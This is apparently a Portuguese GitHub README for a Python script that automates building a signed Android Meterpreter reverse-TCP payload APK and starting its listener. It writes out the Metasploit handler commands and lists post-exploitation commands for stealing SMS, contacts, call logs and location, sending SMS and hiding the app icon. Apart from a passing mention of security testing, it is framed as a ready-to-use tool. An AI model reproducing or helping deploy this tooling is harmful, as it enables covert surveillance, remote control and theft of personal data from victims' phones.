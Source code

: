 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>
  <h4>Se errar a senha tente de novo usando o ' sudo python3 brunao.py -r ' e tente copia a senha: <h2>password</h2></h4>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

-activity_start: Inicia uma atividade Android a partir de uma string Uri.

-check_root: Verifica se o dispositivo Android é root.

-dump_calllog: Obtém o histórico de chamadas.

-dump_contacts: Obtém a lista de contatos.

-dump_sms: Obtém as mensagens SMS.

-geolocate: Obtém a localização atual usando geolocalização.

-hide_app_icon: Oculta o ícone do aplicativo do lançador.

-interval_collect: Gerencia a coleta de dados em intervalos.

-send_sms: Envia SMS do dispositivo alvo.

-sqlite_query: Consulta um banco de dados SQLite no armazenamento.

-wakelock: Habilita ou desabilita o Wakelock.

-wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


        msfconsole


## E, após carregar o Metasploit, configure o listener com o comando:


        use exploit/multi/handler
        set payload android/meterpreter/reverse_tcp
        set LHOST [IP_LOCAL]
        set LPORT [PORTA]
        exploit

        
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## Se quiser gerar um novo o apk(payload) apague os arquivos já existente como as pastas e apk's gerado

use: 
               
               
               sudo rm -rf Brunao_kyti
               
               sudo rm -rf brunao_kyti
               
               sudo rm -rf brunao_kyti.apk

               sudo rm -rf brunao_kyti_final.apk
               
               sudo rm -rf brunao_kyti_signed.apk


## Depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msfconsole. 

